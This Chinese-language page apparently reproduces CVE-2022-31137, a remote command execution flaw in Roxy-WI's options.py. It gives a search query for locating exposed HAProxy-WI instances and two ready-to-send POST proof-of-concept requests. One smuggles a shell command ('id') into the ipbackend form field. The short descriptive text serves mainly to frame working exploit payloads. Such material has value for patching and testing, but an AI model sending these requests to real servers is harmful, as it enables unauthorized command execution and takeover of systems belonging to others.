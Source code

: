 # Roxy-Wi options.py 远程命令执行漏洞 CVE-2022-31137

# Roxy-Wi options.py 远程命令执行漏洞 CVE-2022-31137

## 漏洞描述

Roxy-Wi options.py 存在远程命令执行漏洞，攻击者通过漏洞可以执行命令获取服务器权限

## 漏洞影响

```
Roxy-WI
```

## 网络测绘

```
app="HAProxy-WI"
```

## 漏洞复现

登录页面

![image-20220824143035019](/images/202208241430258.png)

验证POC

```
POST /app/options.py
  
alert_consumer=1&serv=127.0.0.1&ipbackend=%22%3Bid+%23%23&backend_server=127.0.0.1
```

![image-20220824143046987](/images/202208241430031.png)

另一个POC

```
POST /app/options.py HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:101.0) Gecko/20100101 Firefox/101.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 105
Origin: https://x.x.x.x
Dnt: 1
Referer: https://x.x.x.x/app/login.py
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close

alert_consumer=notNull&serv=roxy-wi.access.log&rows1=10&grep=&exgrep=&hour=00&minut=00&hour1=23&minut1=45
```


